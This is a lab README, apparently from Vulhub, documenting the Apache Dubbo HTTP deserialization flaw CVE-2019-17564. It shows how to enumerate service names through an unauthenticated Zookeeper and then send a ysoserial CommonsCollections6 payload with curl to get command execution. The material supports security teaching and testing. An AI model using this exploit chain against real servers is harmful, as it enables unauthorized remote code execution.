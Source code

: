 # Aapche Dubbo Unsafe Java Deserialization (CVE-2019-17564)

[中文版本(Chinese version)](README.zh-cn.md)

Apache Dubbo is a high-performance, java based open source RPC framework.

Apache Dubbo supports different protocols, and its HTTP protocol handler is a wrapper of Spring Framework's `org.springframework.remoting.httpinvoker.HttpInvokerServiceExporter`.

A security warning of Spring Framework shows that an unsafe Java deserialization is exist in the `HttpInvokerServiceExporter`, which could lead to a RCE vulnerability:

> WARNING: Be aware of vulnerabilities due to unsafe Java deserialization: Manipulated input streams could lead to unwanted code As a consequence, do not expose HTTP invoker endpoints to untrusted As a consequence, do not expose HTTP invoker endpoints to untrusted clients but rather just between your own services. In general, we strongly recommend any other message format (e.g. JSON) instead.

This vulnerability affects Apache Dubbo 2.7.4 and earlier, after 2.7.5 Dubbo replace `HttpInvokerServiceExporter` with `com.googlecode.jsonrpc4j.JsonRpcServer`.

Reference links.

- https://docs.spring.io/spring-framework/docs/current/javadoc-api/org/springframework/remoting/httpinvoker/HttpInvokerServiceExporter.html
- https://www.anquanke.com/post/id/198747
- https://paper.seebug.org/1128/

## Vulnerable Application

Start an Apache Dubbo 2.7.3 Provider by executing the following command.

```
docker-compose up -d
```

After the service is started, browser ``http://your-ip:8080`` and the server will return an empty 500 error page by default.

## Exploit

It is important to know the RPC interface name before leveraging this vulnerability.

Vulhub is exposing the port 8080 and port 2181, where 2181 is the port of Zookeeper. Download [Zookeeper](https://zookeeper.apache.org/) and use the script **zkCli** to connect to the unauthenticated Zookeeper server:

```
./zkCli -server target-ip:2181
```

After connecting, it is come with an interactive console, where you can `ls` all nodes, including Dubbo-related configuration.

![](1.png)

Get the RPC interface named `org.vulhub.api.CalcService`. Use [ysoserial](https://github.com/frohoff/ysoserial) to generate a `CommonsCollections6` payload, then send it to `http://your-ip:8080/org.vulhub.api.CalcService` as POST body.

```
java -jar ysoserial.jar CommonsCollections6 "touch /tmp/success" > 1.poc
curl -XPOST --data-binary @1.poc http://your-ip:8080/org.vulhub.api.CalcService
```

![](2.png)

Entering the container, you can see that `touch /tmp/success` has been executed successfully.

![](3.png)
